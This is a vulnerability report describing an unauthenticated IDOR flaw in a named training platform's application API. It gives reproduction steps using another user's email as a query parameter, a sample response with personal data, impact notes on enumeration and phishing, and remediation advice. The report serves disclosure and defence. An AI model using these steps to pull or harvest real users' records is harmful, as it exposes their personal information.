


# Unauthenticated IDOR Leak

## Summary

An unauthenticated Broken Object Level Authorization (BOLA), commonly known as an Insecure Direct Object Reference (IDOR), vulnerability was identified in the `/api/training/auth-app` endpoint of the Datheon platform.

The endpoint accepts an email address through the `email` query parameter and returns the associated training application records without requiring authentication or verifying whether the requester is authorized to access the requested information.

By supplying another user's email address, an unauthenticated attacker can retrieve sensitive personal and application-related information, including the user's full name, email address, application status, educational background, GitHub username, LinkedIn URL, and internal application metadata.

This vulnerability could allow attackers to enumerate user records, collect personal information at scale, and conduct targeted phishing or social engineering attacks against Datheon users.

## Vulnerability Details

- **Type:** OWASP API1:2023 - Broken Object Level Authorization (BOLA)
- **CVSS3 Base Score:** 5.3 (Medium)
- **CVSS3 Vector:** CVSS 3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
- **Affected Endpoint:** api/training/auth-app
- **Affected Parameter:** email

## Steps to Reproduce

### 1. Preparation

First, we have to go to [Datheon Training Login](https://www.datheon.in/training/login) and use our email to be sent to https://www.datheon.in/training/dashboard?id=DT-2026-CUJDM.

### 2. Finding the endpoints

By going to DevTools (F12), reloading page and looking for endpoints that have "/api" in it, you will find this endpoints.

```
api/training/auth-app?email=myredactedemail%40gmail.com
```



### 3. Access user information through vulnerable endpoint

By going to `/api/training/auth-app` and add a real user email in Datheon platform to the query param named "email" like this:

```
api/training/auth-app?email=myredactedemail%40gmail.com
```

- **Query:** `https://www.datheon.in/api/training/auth-app?email=myredactedemail%40gmail.com`
- **Data**: No data need for HTTP Request

You will get this response with include user information:

```
{
    "success": true,
    "applications": [
        {
            "id": "2d5a7b98-47ab-4aad-ba0e-a40bcd487d40",
            "application_number": "DT-2026-CUJDM",
            "full_name": "Redacted name",
            "email": "myredactedemail@gmail.com",
            "project_id": "std-appsec-pentest",
            "status": "accepted",
            "track_id": "trk-cybersec",
            "college": "My Uni",
            "degree": "B.Tech / B.E. in Cybersecurity (2nd Year)",
            "graduation_year": 2027,
            "experience_level": "beginner",
            "objective": "Build practical real-world projects & gain hands-on experience",
            "preferred_start_date": "2026-10-15",
            "created_at": "2026-11-01T17:19:58.423021+00:00",
            "review_notes": "\n[OFFER_DISPATCHED: resend_id=01a198db-67dd-75b2-bbe6-4a772fee6169 | idempotency_key=datheon_offer_DT-2026-CODE | dispatched_at=2026-11-01T20:44:39.032Z]\n[WORKSPACE_TIMER:{\"status\":\"active\",\"started_at\":\"2026-11-04T08:57:23.491Z\",\"paused_at\":null,\"total_paused_seconds\":0,\"duration_weeks\":4}]",
            "github_username": "github.com/hawlermathew2007",
            "linkedin_url": "https://www.linkedin.com/in/hackerpwn/"
        }
    ]
}
```



### Proof of Concept

<video width="100%" controls>
  <source src="poc-task1.mp4" type="video/mp4">
</video>

### Impact

Although this vulnerability does not expose user credentials, it allows unauthenticated attackers to access personal and application-related information belonging to other Datheon users.

The exposed information may include personally identifiable information (PII), educational background, application status, social media profiles, and internal application metadata. In particular, the disclosure of review notes and internal operational metadata could reveal information that was not intended to be publicly accessible.

An attacker could exploit this vulnerability to enumerate user records by collecting email addresses from publicly available sources, such as LinkedIn profiles or other social media platforms, and submitting them to the vulnerable endpoint.

Furthermore, the exposed information could be aggregated using automated scripts to facilitate large-scale data harvesting. Attackers could then leverage the collected information to craft convincing, personalized phishing emails or conduct targeted social engineering attacks against affected users.

Overall, this vulnerability poses a risk to the confidentiality and privacy of Datheon users, particularly if the endpoint allows unrestricted enumeration of application records.

### Remediation
The following security measures are recommended to address this vulnerability:

1. **Enforce Authentication:** Require users to authenticate before accessing the `/api/training/auth-app` endpoint. Unauthenticated requests should be rejected with an appropriate HTTP `401 Unauthorized` response.

2. **Implement Authorization:** Verify that the authenticated user is authorized to access the requested application record. Users should only be able to retrieve application information associated with their own account unless they have an explicitly authorized administrative role.

3. **Apply the Principle of Least Privilege:** Ensure that API responses only contain information necessary for the requesting user's intended functionality. Remove sensitive internal metadata, review notes, and operational information from responses intended for regular users.

4. **Log and Monitor Suspicious Activity:** Monitor requests involving unusual numbers of email addresses, repeated application lookups, and other potentially malicious enumeration patterns.

By implementing these measures, Datheon can prevent unauthorized access to user application records and reduce the risk of personal information disclosure.
